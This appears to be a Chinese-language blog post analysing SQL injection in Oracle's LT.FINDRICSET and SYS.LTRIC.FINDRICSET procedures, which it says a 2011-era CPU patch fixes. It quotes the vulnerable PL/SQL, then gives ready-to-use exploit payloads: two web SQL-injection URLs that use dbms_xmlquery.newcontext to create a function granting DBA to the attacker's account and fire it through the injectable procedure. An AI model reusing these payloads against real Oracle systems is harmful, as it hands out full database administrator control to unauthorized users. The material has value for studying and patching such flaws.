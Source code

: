 由于The 11.2.0.1 April CPU patch fixes this，我的11g就没有测试成功，至于这个java.io的权限有什么用，后面再说， 反正先刷到一个权限再说 LT.FINDRICSET  first to first，看一下这个漏洞过程的代码

```
PROCEDURE FINDRICSET( TABLE_NAME VARCHAR2, RESULT_TABLE VARCHAR2 DEFAULT '' )  
IS  
TABOWNER VARCHAR2(100);  
TABNAME VARCHAR2(100);  
RESOWNER VARCHAR2(100);  
RESNAME VARCHAR2(100);  
BEGIN  
SYS.LT_CTX_PKG.SETUSER ;

     TABOWNER := NVL(SUBSTR(UPPER(TABLE_NAME),1,INSTR(TABLE_NAME,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
     TABNAME  := SUBSTR(UPPER(TABLE_NAME),INSTR(TABLE_NAME,'.')+1);

     IF ( RESULT_TABLE IS NOT NULL ) THEN
        RESOWNER := NVL(SUBSTR(UPPER(RESULT_TABLE),1,INSTR(RESULT_TABLE,'.')-1), SYS_CONTEXT('lt_ctx', 'current_schema'));
        RESNAME  := SUBSTR(UPPER(RESULT_TABLE),INSTR(RESULT_TABLE,'.')+1);
     END IF;

      IF ( RESULT_TABLE IS NOT NULL AND 
           NOT HASOUTPUTTABPRIVS( RESOWNER, RESNAME ) ) THEN
         SYS.WM_ERROR.RAISEERROR(SYS.LT.WM_ERROR_171_NO, 'insufficient privileges on the result table');
      END IF;

     SYS.LTRIC.FINDRICSET( TABOWNER, TABNAME, RESOWNER, RESNAME );


END;  

```

粗略看一下似乎没什么问题，可是这个函数又调用了SYS.LTRIC.FINDRICSET,而SYS.LTRIC.FINDRICSET中存在注入，但是SYS.LTRIC.FINDRICSET 是不能被public角色调用，LT.FINDRICSET可以被public 角色调用，所以归为LT.FINDRICSET漏洞，再让我们看一下SYS.LTRIC.FINDRICSET的代码

```
PROCEDURE FINDRICSET( IN_TABLE_OWNER VARCHAR2, IN_TABLE_NAME VARCHAR2,  
RESULT_TABLE_OWNER VARCHAR2, RESULT_TABLE VARCHAR2 )  
.....省略  
EXECUTE IMMEDIATE 'insert into wmsys.wm$ric_set_in values ( ''' || IN_TABLE_OWNER || ''',''' || IN_TABLE_NAME || ''' )'; 

```

我们看到了IN_TABLE_NAME 和 IN_TABLE_OWNER 可以注入，但是IN_TABLE_NAME与IN_TABLE_OWNER都是由LT.FINDRICSET中的参数TABLE_NAME 所产生，所以我们可以用LT.FINDRICSET的第一参来进行注入，尝试结合dbms_xmlquery.newcontext(这样就无需create procedure)，结果因为 字数限制而失败了,下面给出利用方法，需要有create procedure的权限

```
web: http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;  
begin execute immediate ''create or replace function get_dba return varchar2 authid current_user is PRAGMA  
autonomous_transaction;BEGIN execute immediate ''''grant dba to hellove'''';commit;return ''''z'''';END; ''; commit; end;')  
from dual) is not null

web :http://www.hellove.net/hellove.php?id=123 and (select dbms_xmlquery.newcontext('declare PRAGMA  
AUTONOMOUS_TRANSACTION;begin sys.lt.findricset(''A.A''''||hellove.get_dba)--'',''BBBB'');commit;end;') from dual) is not  
null

```